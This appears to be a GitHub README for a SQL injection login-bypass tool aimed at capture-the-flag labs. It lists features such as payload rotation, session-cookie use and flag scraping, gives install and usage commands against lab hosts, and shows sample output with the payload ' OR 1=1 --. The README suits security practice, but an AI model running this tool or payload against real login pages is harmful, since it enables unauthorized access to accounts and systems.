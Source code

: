 -- SQLi Bypass Toolkit (sqli_bypass)
Author: Sanctification Yeboah (@Jet-Programmer)

Automated SQL Injection login bypass tool with payload rotation, session hijack support, and flag scraping from post-login portals.

-- Features

- 🔁 Rotates classic SQLi payloads against login forms
- 🌐 Supports `--target` for dynamic URL injection
- 🍪 Accepts `--cookie` for authenticated testing
- 🧠 Auto-analyzes `/admin.php` for flags
- 🌈 Colored CLI output for easy hits and fails

-- 📦 Installation

```bash
git clone https://github.com/Jet-Programmer/sqli_bypass_toolkit.git
cd sqli_bypass_toolkit
sudo bash install.sh

--usage with url
sqli_bypass --target http://lab.local/login_check.php

--with session cookie:
sqli_bypass --target http://lab.local/login_check.php --cookie PHPSESSID=abc123

--with custom wordlist:
sqli_bypass --target http://192.168.56.1/login_check.php --wordlist ~/payloads/sqli.txt

Sample Output:
[+] Bypass Success: ' OR 1=1 --
[!] FLAG(s) FOUND: flag{bypassed_like_a_pro}

